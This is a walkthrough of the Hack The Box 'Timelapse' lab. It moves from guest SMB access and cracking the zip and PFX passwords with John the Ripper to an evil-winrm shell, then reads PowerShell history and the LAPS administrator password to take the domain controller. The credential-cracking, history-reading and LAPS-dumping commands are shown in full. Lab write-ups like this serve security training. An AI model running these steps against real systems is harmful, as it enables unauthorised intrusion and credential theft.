HTB: Timelapse Walkthrough
Timelapse is an easy level active directory box. This box was a two-stage attack. Initial access came from an open SMB share containing a password-protected zip file. Inside that zip was a password-protected PFX certificate. After cracking both with John the Ripper, I used the certificate with evil-winrm to get a user shell.
The privilege escalation was a LAPS misconfiguration. I found credentials for a service account in the PowerShell history, which was part of the Laps_Readers group. This allowed me read the password for the admin account.
Recon

sudo nmap -sVC -p- -v -T5 <ip>I added timelapse.htb to my /etc/hosts file
I then wanted to check port 445 (smb) to see if I can see shares with null authentication.
User Flag
nxc smb <ip> -u '' -p '' --shares
After that, I tried Guest authentication with no password and was able to view the shares.
nxc smb <ip> -u 'guest' -p '' --shares
From there, I went to the 'shares' share and found a Dev directory with a backup zip file.
smbclient //<ip>/Shares -U 'Guest'
I downloaded the zip file to my machine and tried to unzip the file but it was prompting a password. So I used Zip2john to extract the hash from the zip file and then cracked it with John the ripper.
zip2john winrm_backup.zip > zip_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt
This revealed that the password was supremelegacy
I used that password to unzip the file. Following that I wanted to see the information that the pfx file contained but was prompted a password. Before we go further — a PFX file is a single, password-protected file that bundles a user's public certificate (their "public ID") and their private key (their "secret") together. We need to crack its password so we can extract both parts to authenticate.

I extracted the password hash for the pfx file using pfx2john.
pfx2john legacyy_dev_auth.pfx > pfx_hash.txt
After extracting the hash and putting it into a file, I used John the ripper again to crack the hash.

Doing this revealed the password thuglegacy
After getting the password to the pfx file I needed to extract the public certificate and private key.
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out public.cer
openssl pkcs12 -in legacyy_dev_auth.pfx -nodes -nocerts -out private_decrypted.key
If you go back to the nmap scan you will notice that port 5986 is open meaning that we can connect to evil-winrm

I used this command to connect to evil-winrm and get the user flag.
evil-winrm -i <ip> -c public.cer -k private_decrypted.key -S
Root Flag
I first searched legacyy's privileges and couldn't find anything interesting so therefore I pivoted to see if they left any important notes or if there was anything in the powershell history and sure enough I found a password for the svc_deploy account in the powershell history.
Get-Content $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
After logging into the svc_deploy account my first enumeration step was to check my group memberships with whoami /all. One group immediately stood out to me: TIMELAPSE\Laps_Readers

LAPS (Local Administrator Password Solution) is a tool that randomizes the local admin password on every computer and stores it in Active Directory (AD). The Laps_Readers group is given permission to read these passwords. The critical misconfiguration here was that this group could read the LAPS password for the Domain Controller, allowing my svc_deploy user to ask AD for the DC's administrator password.
I then ran this command to get the password for the administrator.
Get-ADComputer -Identity DC01 -Properties ms-Mcs-AdmPwd | Select-Object Name, ms-Mcs-AdmPwd
This is the command that queries Active Directory to steal the LAPS password:
Get-ADComputer: A cmdlet from the Active Directory module that retrieves AD computer objects.-Identity DC01: Specifies which computer object you want to look at.-Properties ms-Mcs-AdmPwd: Specifically requests the LAPS password attribute.Select-Object Name, ms-Mcs-AdmPwd: Cleans up the output to show only the computer name and the LAPS password.
The results showed the password, and with it I logged in to the administrator's account and was able to find the root flag in the user 'trx' desktop.

